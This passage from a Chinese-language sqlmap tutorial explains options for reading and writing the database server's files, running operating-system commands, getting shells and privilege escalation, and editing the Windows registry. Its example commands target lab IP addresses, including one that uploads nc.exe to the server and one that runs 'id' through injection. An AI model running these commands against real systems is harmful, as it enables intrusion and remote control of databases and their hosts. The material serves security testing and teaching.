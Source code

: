 ### 1.3.12 访问文件系统
这些选项可以被用来访问后端数据库管理系统的底层文件系统
- --file-read=RFILE   从后端的数据库管理系统文件系统读取文件，SQL Server2005中读取二进制文件example.exe: `sqlmap.py -u"http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?name=luther"--file-read "C:/example.exe" -v 1`
- --file-write=WFILE  编辑后端的数据库管理系统文件系统上的本地文件
- --file-dest=DFILE   后端的数据库管理系统写入文件的绝对路径

在kali中将/software/nc.exe文件上传到C:/WINDOWS/Temp下：
> python sqlmap.py -u"http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" --file-write"/software/nc.exe" --file-dest "C:/WINDOWS/Temp/nc.exe" -v1

### 1.3.13 操作系统访问
这些选项可以用于访问后端数据库管理系统的底层操作系统
- --os-cmd=OSCMD   执行操作系统命令（OSCMD）
- --os-shell          交互式的操作系统的shell
- --os-pwn          获取一个OOB shell，meterpreter或VNC
- --os-smbrelay       一键获取一个OOBshell，meterpreter或VNC
- --os-bof           存储过程缓冲区溢出利用
- --priv-esc          数据库进程用户权限提升
- --msf-path=MSFPATH  MetasploitFramework本地的安装路径
- --tmp-path=TMPPATH  远程临时文件目录的绝对路径

linux查看当前用户命令：
> sqlmap.py -u"http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --os-cmd id -v1

### 1.3.14 Windows注册表访问
这些选项可以被用来访问后端数据库管理系统Windows注册表
- --reg-read          读一个Windows注册表项值
- --reg-add           写一个Windows注册表项值数据
- --reg-del           删除Windows注册表键值
- --reg-key=REGKEY    Windows注册表键
- --reg-value=REGVAL  Windows注册表项值
- --reg-data=REGDATA  Windows注册表键值数据
- --reg-type=REGTYPE  Windows注册表项值类型

### 1.3.15 一般选项
这些选项可以用来设置一些一般的工作参数
- -s SESSIONFILE     保存和恢复检索会话文件的所有数据
- -t TRAFFICFILE      记录所有HTTP流量到一个文本文件中
- --batch            从不询问用户输入，使用所有默认配置。
- --binary-fields=..  结果字段具有二进制值(e.g."digest")
- --charset=CHARSET   强制字符编码
- --crawl=CRAWLDEPTH  从目标URL爬行网站
- --crawl-exclude=..  正则表达式从爬行页中排除
- --csv-del=CSVDEL    限定使用CSV输出 (default",")
- --dump-format=DU..  转储数据格式(CSV(default), HTML or SQLITE)
- --eta              显示每个输出的预计到达时间
- --flush-session     刷新当前目标的会话文件
- --forms           解析和测试目标URL表单
- --fresh-queries     忽略在会话文件中存储的查询结果
- --hex             使用DBMS Hex函数数据检索
- --output-dir=OUT..  自定义输出目录路径
- --parse-errors      解析和显示响应数据库错误信息
- --save=SAVECONFIG   保存选项到INI配置文件
- --scope=SCOPE    从提供的代理日志中使用正则表达式过滤目标
- --test-filter=TE..  选择测试的有效载荷和/或标题(e.g. ROW)
- --test-skip=TEST..  跳过试验载荷和/或标题(e.g.BENCHMARK)
- --update            更新sqlmap
